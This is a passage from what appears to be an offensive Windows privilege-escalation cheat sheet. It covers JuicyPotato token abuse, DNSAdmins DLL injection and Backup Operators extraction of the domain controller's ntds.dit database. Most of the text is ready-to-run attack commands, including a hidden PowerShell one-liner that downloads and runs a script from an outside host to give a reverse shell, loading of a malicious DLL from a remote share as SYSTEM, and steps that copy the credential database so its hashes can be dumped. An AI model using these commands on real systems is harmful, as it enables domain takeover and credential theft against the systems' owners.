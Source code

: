 #### Potatoes
Like PrintSpoofer, the token `SeImpersonatePrivilege` is abused to escalate privileges.
```
# Using a CLSID, C:\tmp\root.bat contains a reverse shell
.\juicy.exe -t * -p C:\tmp\root.bat -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -l 9002

# Fileless reverse shell
.\juicy.exe -l 12345 -p C:\Window\System32\cmd.exe -t * -a "/c powershell.exe -nop -w hidden -executionpolicy bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.150/nishang.ps1')"
```
CLSID can be obtain [here](http://ohpe.it/juicy-potato/CLSID/).

#### DNS Admin Abuse
If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work.

```
# Get members of the DNSAdmins group
net localgroup "DNSAdmins" /domain
# Load a malicious dll from a member of DNSAdmins context
# Stop service
sc.exe \\<DNS_SERVER> stop dns
# Replace the dll
dnscmd.exe /config /serverlevelplugindll \\10.10.10.150\share\evil.dll
# Restart the service
sc.exe \\<DNS_SERVER> start dns
```

#### Backup Operator Abuse
If we manage to compromise a user account that is member of the Backup Operators group, we can then abuse it's `SeBackupPrivilege` to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA.

1) Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:
```
# Create a .txt file that will contain the shadow copy process script
Script ->{
set metadata c:\<PathToSave>metadata.cab
set context clientaccessible
set context persistent
begin backup
add volume c: alias mydrive
create
expose %mydrive% w:
}
```
2) Next we need to access the shadow copy, we may have the `SeBackupPrivilege` but we cant just 
simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we can use [this](https://github.com/giuliano108/SeBackupPrivilege) repo:
```
# Importing both dlls from the repo using powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
  
# Checking if the SeBackupPrivilege is enabled
Get-SeBackupPrivilege
  
# If it isn't we enable it
Set-SeBackupPrivilege
  
# Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
```